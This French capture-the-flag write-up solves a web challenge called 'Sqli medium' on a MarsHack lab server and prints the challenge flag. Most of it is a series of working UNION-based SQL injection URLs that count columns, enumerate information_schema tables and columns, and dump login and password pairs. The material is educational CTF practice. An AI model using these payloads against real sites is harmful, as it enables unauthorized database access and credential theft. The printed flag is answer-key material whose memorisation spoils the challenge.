








# Write up : Sqli medium #

Catégorie :

```
Web
```

Consigne : 

```
Trouvez les identifiants de connexion.<p>

<FONT COLOR="#ff0000">Accès au site :<br>   <a href="http://game2.marshack.fr:8082" target="new">http://game2.marshack.fr:8082</a></FONT> <p>

```

Pièce jointe :

```
Aucune
```

Serveur :

```
game2
```

Points attribués : 

```
30
```

Flag : 

```
MARS{Uni0nIs4nAw353m3Op710n}
```








Arrivé sur l'épreuve, on remarque que les articles sont stockés en base de données via un id.

On tente de générer une erreur en exécutant une commande SQL incorrecte (en utilisant quote ou double-quote, par exemple).



On voit que l'on à affaire à une base de données SQL.

Modifier l'url pour demander un article qui ne peut pas exister :

````
http://game2.marshack.fr:8082/?id=-1
````

Aucune erreur soulevée par MySQL, ça veut dire qu'il y a une vulnérabilité de type injection SQL.

Nous devons ensuite trouver le nombre d'arguments nécessaires pour que l'injection via UNION puisse fonctionner.
Pour ceci, il suffit d'utiliser une clause ORDER BY :

```
http://game2.marshack.fr:8082/?id=-1' ORDER BY 3 -- -
```




Erreur SQL, il y a moins de 3 arguments, tentons avec 2.

````
http://game2.marshack.fr:8082/?id=-1' ORDER BY 2 -- -
````

Aucune erreur, donc le nombre d'argument est bien 2.

Testons ceci :

```
http://game2.marshack.fr:8082/?id=-1' UNION SELECT 1,2 -- -
```




Cette astuce permet de déterminer le nombre de champs composant la requête SQL.

Aprés plusieurs tentatives il s'avére que la requête contient deux champs.

Récupérons le nom des tables existantes.

````
http://game2.marshack.fr:8082/?id=-1' UNION SELECT 1,group_concat(table_name) FROM information_schema.tables -- -
````




On remarque deux tables intéressantes : "articles" et "my_super_strange_table_of_things".

Voyons voir le nom des colonnes.

```
http://game2.marshack.fr:8082/?id=-1' UNION SELECT 1,group_concat(column_name) FROM information_schema.columns where table_schema=database() -- -
```



Le nom des colonnes apparaît.

````sql
id,name,content,id,login,password
````

Le nom des colonnes et le nom des tables sont dès à présent disponibles. On va donc récupérer le login et le mot de passe.

```
http://game2.marshack.fr:8082/?id=-1' UNION SELECT 1,group_concat(login, 0x3a, password) FROM my_super_strange_table_of_things -- -
```




Les logins et mot de passe apparaissent, on peut donc tenter de se connecter via la page admin.php.

On obtient donc le flag.

Flag : MARS{Uni0nIs4nAw353m3Op710n}